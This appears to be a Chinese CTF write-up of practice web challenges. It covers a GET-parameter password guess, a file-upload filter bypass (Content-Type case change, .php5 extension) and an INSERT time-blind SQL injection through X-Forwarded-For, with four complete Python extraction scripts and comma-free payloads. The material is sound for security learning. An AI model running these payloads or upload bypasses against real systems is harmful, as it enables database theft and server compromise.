
发现文件resusl.php
访问

发现下面有提示了一行代码
1 if ($_GET[x]==$password)
大概要我们GET一个参数x，要等于变量password的值，想起来刚开始的提示变成admin，就试了一下GET?x=admin

拿到了flag
求getshell 网址：http://120.24.86.145:8002/web9/
需要我们上传一个图片文件，上传php文件提示

用burp抓包修改文件类型为图片类型，依然上传失败

猜测是对文件名和文件类型都有检查，想了很久不知道怎么做
看了别人的题解，发现要对Content-Type: multipart/form-data修改为Content-Type: Multipart/form-data
绕过过滤，再将文件名修改为php5(php的别名)，只有这个没有被过滤，再将文件类型修改为图片类型

具体为什么要这么做，找了好多文章都没有解释原因，暂时当成一个技巧记下来吧
INSERT INTO注入 网址：http://120.24.86.145:8002/web15/
给出了源码提示：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 <?php error_reporting(0 ); function getIp () $ip = '' ; if (isset ($_SERVER['HTTP_X_FORWARDED_FOR' ])){$ip = $_SERVER['HTTP_X_FORWARDED_FOR' ]; }else { $ip = $_SERVER['REMOTE_ADDR' ]; } $ip_arr = explode(',' , $ip); return $ip_arr[0 ];} $host="localhost" ; $user="" ; $pass="" ; $db="" ; $connect = mysql_connect($host, $user, $pass) or die ("Unable to connect" ); mysql_select_db($db) or die ("Unable to select database" ); $ip = getIp(); echo 'your ip is :' .$ip;$sql="insert into client_ip (ip) values ('$ip')" ; mysql_query($sql); ?>
过滤了逗号，并且是insert 注入
我们先来看一下insert注入方法，没有报错，没有查询，只能延时注入

有延迟，可以延时注入
可是过滤了逗号，就没办法用if语句了
但是还有一种判断执行语句：select case when 判断条件 then 执行语句1 else 执行语句2 end

ok，成功延时，那么最后考虑注入的判断条件，正常来说是用substr函数一位一位的截取判断，但是我们之前实用的substr函数也都是需要用到逗号的，怎么办呢
get了另外一种substr函数的使用方法：substr(database() from 1 for 1) = substr(database(),1,1)

接下来只需要写个脚本注入就可以了
先注出数据库名：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 import requestsurl = 'http://120.24.86.145:8002/web15/' allString = '''1234567890~`!@#$%^&*()-_=+[]{};:'"|\,<.>/?qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM''' database = '' flag = 1 for i in range(1 ,10 ): for j in allString: header = { "X-Forwarded-For" :"1'+(select case when (ascii(substr(database() from %d for 1))=%d) then sleep(3) else 0 end))#" %(i,ord(j)) } r = requests.get(url,headers=header) t = r.elapsed.total_seconds() print('the time of ' +j+' is ' +str(t)) if t >= 3 : database = database + j print('the ' +str(i)+' place of database is ' +j) break elif t < 3 and j == 'M' : flag = 0 break if flag == 0 : break print('database:' ,database)
结果：

数据名为web15
注表名：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 import requestsurl = 'http://120.24.86.145:8002/web15/' allString = '''1234567890~`!@#$%^&*()-_=+[]{};:'"|\,<.>/?qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM''' table_name = '' flag = 1 for i in range(1 ,20 ): for j in allString: header = { "X-Forwarded-For" :"1'+(select case when (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()) from %d for 1))=%d) then sleep(3) else 0 end))#" %(i,ord(j)) } r = requests.get(url,headers=header) t = r.elapsed.total_seconds() print('the time of ' +j+' is ' +str(t)) if t >= 3 and t < 4 : table_name = table_name + j print('the ' +str(i)+' place of table_name is ' +j) break elif t < 3 and j == 'M' : flag = 0 break if flag == 0 : break print('table_name:' ,table_name)
这里需要考虑一下服务器有可能自身会延迟，所以我将延迟定在3秒到4秒内
结果：

表名：client_ip,flag
注flag表下的列名：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 import requestsurl = 'http://120.24.86.145:8002/web15/' allString = '''1234567890~`!@#$%^&*()-_=+[]{};:'"|\,<.>/?qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM''' column_name = '' flag = 1 for i in range(1 ,20 ): for j in allString: header = { "X-Forwarded-For" :"1'+(select case when (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag') from %d for 1))=%d) then sleep(3) else 0 end))#" %(i,ord(j)) } r = requests.get(url,headers=header) t = r.elapsed.total_seconds() print('the time of ' +j+' is ' +str(t)) if t >= 3 and t < 4 : column_name = column_name + j print('the ' +str(i)+' place of table_name is ' +j) break elif t < 3 and j == 'M' : flag = 0 break if flag == 0 : break print('column_name:' ,column_name)
结果：

列名为flag
最后注出flag列下的信息
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 import requestsurl = 'http://120.24.86.145:8002/web15/' allString = '''1234567890~`!@#$%^&*()-_=+[]{};:'"|\,<.>/?qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM''' flag = '' f = 1 for i in range(1 ,30 ): for j in allString: header = { "X-Forwarded-For" :"1'+(select case when (ascii(substr((select flag from flag) from %d for 1))=%d) then sleep(3) else 0 end))#" %(i,ord(j)) } r = requests.get(url,headers=header) t = r.elapsed.total_seconds() print('the time of ' +j+' is ' +str(t)) if t >= 3 and t < 4 : flag = flag + j print('the ' +str(i)+' place of table_name is ' +j) break elif t < 3 and j == 'M' : f = 0 break if f == 0 : break print('flag:' ,flag)
最后的flag
